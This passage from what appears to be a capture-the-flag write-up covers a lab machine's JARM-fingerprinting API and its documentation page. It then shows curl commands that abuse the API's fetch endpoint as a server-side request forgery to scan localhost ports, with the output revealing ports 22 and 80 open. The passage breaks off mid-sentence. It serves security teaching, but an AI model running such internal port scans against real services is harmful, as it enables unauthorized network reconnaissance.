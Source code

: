 I noticed `/api` above, and could fuzz that.

`/docs` is interesting. The rest is likely just static stuff.

#### /docs

This site gives documentation about the API:

[![image-20210922165959390](https://0xdfimages.gitlab.io/img/image-20210922165959390.png)](https://0xdfimages.gitlab.io/img/image-20210922165959390.png)

[*Click for full image*](https://0xdfimages.gitlab.io/img/image-20210922165959390.png)

The first one takes an ID and returns an JARM, just like I observed on the front page.

`signature` takes a string and an optional `max_results`:

![image-20210922170411414](https://0xdfimages.gitlab.io/img/image-20210922170411414.png)

`fetch` gives a bit more information:

![image-20210922170122847](https://0xdfimages.gitlab.io/img/image-20210922170122847.png)

“grab metadata if malicious” is interesting. That sounds more like a connection, not just handshake and close.

### Localhost TLS Port Scan

Using the `fetch` endpoint, I can scan the local machine for open ports:

```

oxdf@parrot$ curl http://jarmis.htb/api/v1/fetch?endpoint=http://localhost:20
{"sig":"00000000000000000000000000000000000000000000000000000000000000", "endpoint":"null","note":"localhost"} 
oxdf@parrot$ curl http://jarmis.htb/api/v1/fetch?endpoint=http://localhost:21
{"sig":"00000000000000000000000000000000000000000000000000000000000000", "endpoint":"null","note":"localhost"}
oxdf@parrot$ curl http://jarmis.htb/api/v1/fetch?endpoint=http://localhost:22
{"sig":"00000000000000000000000000000000000000000000000000000000000000", "endpoint":"127.0.0.1:22","note":"localhost"}
oxdf@parrot$ curl http://jarmis.htb/api/v1/fetch?endpoint=http://localhost:23
{"sig":"00000000000000000000000000000000000000000000000000000000000000", "endpoint":"null","note":"localhost"}
oxdf@parrot$ curl http://jarmis.htb/api/v1/fetch?endpoint=http://localhost:80
{"sig":"00000000000000000000000000000000000000000000000000000000000000", "endpoint":"127.0.0.1:80","note":"localhost"} 
oxdf@parrot$ curl http://jarmis.htb/api/v1/fetch?endpoint=http://localhost:81
{"sig":"00000000000000000000000000000000000000000000000000000000000000", "endpoint":"null","note":"localhost"}

```

It seems like for some reason the site sets `endpoint` field if the port is open but not if it’s closed. I got a little bit lucky here because the site only works this way if I scan localhost, not 127.0.0.1:
